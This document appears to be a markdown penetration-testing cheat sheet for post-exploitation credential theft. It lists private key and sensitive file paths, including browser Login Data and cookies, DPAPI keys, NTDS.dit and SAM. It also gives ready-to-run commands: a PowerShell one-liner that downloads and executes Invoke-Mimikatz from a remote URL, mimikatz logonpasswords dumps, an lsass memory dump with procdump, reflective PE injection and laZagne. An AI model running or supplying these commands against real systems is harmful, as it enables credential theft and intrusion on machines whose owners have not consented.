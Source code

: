 ### git folder
```
directory name = .git
python3 git_extract.py gitfilename
```
### Private key
```
.ssh/id_rsa||id_dsa||id_ecdsa||id_ed25519||id_ecdsa-sk||id_ed25519-sk
```
bitvise ssh private key path on windows
```
C:\Users\username\.ssh\id_rsa||id_dsa||id_ecdsa||id_ed25519||id_ecdsa-sk||id_ed25519-sk
```
### Sensitive files
```
find *.log, passwd, username, credential
C:\Users\username\Documents
C:\Users\username\Downloads
*.gpg
*.pgp
*config*.php
elasticsearch.y*ml
kibana.y*ml
*.p12
*.der
*.csr
*.cer
known_hosts
id_rsa
id_dsa
*.ovpn
anaconda-ks.cfg
hostapd.conf
rsyncd.conf
cesi.conf
supervisord.conf
tomcat-users.xml
*.kdbx
KeePass.config
Ntds.dit
SAM
SYSTEM
FreeSSHDservice.ini
access.log
error.log
server.xml
ConsoleHost_history.txt
.github folder
setupinfo
setupinfo.bak
*.bak, *.db
*.pdf
*.zip
*.7z
*.gz
*.sitx
*.rar
%LOCALAPPDATA%\Google\Chrome\User Data\Default\Login Data
%LOCALAPPDATA%\Google\Chrome\User Data\Default\Network
%LOCALAPPDATA%\Google\Chrome\User Data\Default\Network\Cookies
%LOCALAPPDATA%\Google\Chrome\User Data\Local State
%LOCALAPPDATA%\Microsoft\Edge\User Data\Default\Login Data
%LOCALAPPDATA%\Microsoft\Edge\User Data\Default\Network
%LOCALAPPDATA%\Microsoft\Edge\User Data\Default\Network\Cookies
%LOCALAPPDATA%\Microsoft\Edge\User Data\Local State
%APPDATA%\Roaming\Microsoft\Protect\<SID> -> DPAPI Keys
%SystemRoot%\NTDS\ntds.dit(Active Directory database)
%SystemRoot%\System32\winevt\Logs\Microsoft-Windows-TerminalServices-LocalSessionManager%4Operational.evtx(Windows event logs)
```
### Linux Web Service
```
Check all the folders and files under var/www/html
```
### tcpdump to capture packets 
```
tcpdump -i any udp -vvv
```
### History
```
Linux:
check all user's .bash_history
/home/user/.bash_history
```
### Password Hash
```
powershell "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds"
```
Mimikatz - sekurlsa::logonpasswords  
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" exit  
lsadump::cache  
sekurlsa::tickets


###### Load mimikatz and run it locally.  
```
$PEBytes = [IO.File]::ReadAllBytes('mimiikatz.exe')  
Invoke-ReflectivePEInjection -PEBytes $PEBytes -ExeArgs "privilege::debug sekurlsa::logonpasswords Arg3 Arg4"
https://github.com/KiritoLoveAsuna/Penetration-Testing/blob/main/Invoke-ReflectivePEInjection.ps1
```
###### Procdump to extract hash
```
Procdump.exe -accepteula -ma lsass.exe lsass.dmp
sekurlsa::minidump lsass.dmp
mimikatz.exe "privilege::debug" "sekurlsa::minidump lsass.dmp" "sekurlsa::logonpasswords" exit
```

###### Pwdump
>It is recommended to extrast hashes using both mimikatz and pwdump

### Password Retriver
```
laZagne.exe all
```
